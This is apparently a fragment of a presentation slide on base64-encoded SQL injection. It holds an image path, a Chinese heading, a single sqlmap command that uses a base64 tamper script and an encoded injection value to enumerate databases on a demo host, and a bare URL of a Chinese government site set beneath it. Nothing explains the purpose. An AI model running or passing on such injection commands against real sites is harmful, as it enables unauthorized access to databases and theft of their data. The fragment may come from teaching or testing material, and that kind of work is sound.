

# base64编码注入
sqlmap -u http://ha.cker.in/index.php?tel=LTEnIG9yICc4OCc9Jzg5 --tamper base64encode.py –dbs
http://lm.yichang.gov.cn/